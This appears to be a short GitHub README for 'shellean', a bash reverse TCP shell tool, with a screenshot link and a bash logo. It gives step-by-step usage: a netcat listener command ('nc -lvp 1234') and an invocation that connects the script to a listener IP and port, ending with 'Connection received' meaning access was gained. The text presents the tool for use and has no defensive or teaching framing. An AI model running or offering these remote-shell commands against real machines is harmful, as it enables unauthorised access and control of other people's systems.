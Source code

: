 ## shellean

![Screenshot from 2023-07-19 00-31-00](https://github.com/Nathalon/shellean/assets/69394316/0f035b0e-c18e-41ef-8d75-f8ca21e6d1e7)

**Reverse TCP Shell.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run shellean.sh. `$ ./shellean.sh --a 192.168.1.109 --port 1234`**  
**3. If you get this message `Connection received` it means you gained access.**  


<img src="https://www.vectorlogo.zone/logos/gnu_bash/gnu_bash-icon.svg" alt="bash" width="50" height="50" />
